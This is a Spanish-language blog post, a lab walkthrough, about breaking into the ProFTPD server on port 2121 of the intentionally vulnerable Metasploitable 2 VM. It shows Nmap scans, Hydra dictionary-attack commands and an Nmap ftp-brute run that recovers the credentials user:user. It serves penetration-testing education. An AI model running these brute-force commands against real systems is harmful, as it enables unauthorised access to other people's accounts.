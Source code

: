 ```yaml
---
layout: post
title: Metasploitable 2, el otro FTP del puerto 2121
category: Hacking
comments: true
description: En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

tags:       
    - hacker
    - metasploitable2
    - metasploit
    - nmap
    - hydra
---
```


En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Los puertos de Metasploitable 2

Como recordaras al explorar la maquina de Metasploitable 2 con Nmap nos daba el siguiente resultado:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## El puerto 2121

Nmap nos pone que en el puerto 2121 hay un servicio de FTP llamado ccproxy-ftp, pero como necesitamos más le pedimos, más informacion con -sV

{% highlight sql linenos %}

nmap -sT -p 2121  -sV  -T5 192.168.1.39

{% endhighlight %}

Y nos devuelve:

{% highlight sql linenos %}

Starting Nmap 7.50 ( https://nmap.org ) at 2017-08-13 13:36 CEST
Nmap scan report for 192.168.1.39
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

{% endhighlight %}

Nmap nos devuelve que este server es un ProFTPD 1.3.1, si buscamos algun exploit para esta versión, no encontramos ninguno, ni en Metasploit ni en searchsploit, por lo que tendriamos que ver otras opciones.

## Ataque por diccionario

La opción principal seria aqui, haber sacado usuarios del sistema durante la fase de enumeración y con ello poder hacer un ataque de diccionario, para ello usaremos la aplicación Hydra, pre-instalada en Kali Linux.

Para hacer este ataque tenemos tres opciones:

* No saber los usuarios

Esta es la peor, ya que nos toca recorrer dos diccionarios y combinarlos entre ellos, es la opción que más tarda. Recueda Kali tiene diccionarios ya en el sistema, pero eso no te impide crear tu otros diccionarios o descargarte nuevos.

<figure>
<img alt="Hydra funcionando a pleno rendimiento" class="img img-responsive" src="/resources/images/hydra.png"/>
<figcaption>
Hydra funcionando a pleno rendimiento
</figcaption>
</figure>

{% highlight sql linenos %}

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121


{% endhighlight %}


Y después de tres horas corriendo con los diccionarios por defecto de Kali.... nada. Seguramente con diccionario hecho a medida hubiese funcionado mejor.

{% highlight sql linenos %}

1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-08-14 10:06:00

{% endhighlight %}

* Saber el usuario, pero no el password

Puede que durante nuestra fase de enumeración, hayamos conseguido nombres de usuario, con ello podemos probar hydra, solo combinando con passwords, es una opción rapida.

{% highlight sql linenos %}

hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

* Combinación de usuarios y passwords por defecto

La mejor opción es tener una lista de usuarios y passwords ya hecha e Hydra probara esas combinaciones por si alguna es valida. En este caso en Hydra tenemos que usar la opción -C usando un fichero con usuarios y passwords separados con : ejemplo: usuario:password

{% highlight sql linenos %}

hydra -C passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

## Y al final NMAP gana...

Y al final un script simple de Nmap se lleva el gato al agua, simplemente usando un script de Nmap, tenemos ya un usuario de FTP que poder entrar.
Este es el comando que he usado, pidiendo que se ejecuten todos los scripts relacionados con FTP.

{% highlight sql linenos %}

nmap -sT -sV -p 2121 --script ftp* -T5 192.168.1.39

{% endhighlight %}

El resultado

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 11296 guesses in 182 seconds, average tps: 75.9
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds


{% endhighlight %}

Es decir, el usuario es user, y el password es user... Ya podemos entrar y tener acceso a un FTP.





